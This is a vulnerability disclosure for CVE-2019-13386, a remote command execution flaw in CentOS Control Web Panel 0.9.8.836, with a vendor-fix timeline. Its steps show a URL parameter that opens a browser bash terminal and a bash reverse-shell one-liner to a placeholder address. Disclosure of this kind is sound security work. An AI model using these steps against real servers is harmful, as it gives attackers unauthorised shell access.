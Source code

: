 # Information

```
# Exploit Title: CWP (CentOS Control Web Panel) 0.9.8.836 - Remote Command Execution
# Date: 6 July 2019
# Exploit Author: Pongtorn Angsuchotmetee, Nissana Sirijirakal, Narin Boonwasanarak
# Vendor Homepage: https://control-webpanel.com/
# Software Link: Not available, user panel only available for lastest version
# Version: 0.9.8.836
# Tested on: CentOS 7.6.1810 (Core)
# CVE : CVE-2019-13386
```

# Description

From the application interface, it does not allow user to run OS commands directly. If user want to run OS commands, they need to do it through crontab function. The vulnerability allows users to executed OS commands directly through web browser.

#  Steps to Reproduce

1. Login into the CentOS Web Panel using user credential

<kbd>![](resources/CVE-2019-13386.md/2019-07-23-15-40-04.png)</kbd>

<br>

2. Add "?action=9" on url , bash terminal will show then users can run OS commands through web browser
``` 
Example: https://[target.com]:2083/cwp_xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx/username/fileManager2.php?action=9
```
<kbd>![](resources/CVE-2019-13386.md/2019-07-23-16-31-38.png)</kbd>

<br>

3. Create reverse shell through OS commands 
``` 
Reverse shell payload "bash -i >& /dev/tcp/[local IP Address]/[port] 0>&1"
``` 
<kbd>![](resources/CVE-2019-13386.md/2019-07-23-16-34-16.png)</kbd>


#  Timeline

```
2019-07-05: Discovered the bug
2019-07-05: Reported to vendor
2019-07-05: Vender accepted the vulnerability
2019-07-11: The vulnerability has been fixed
2019-07-23: Published
```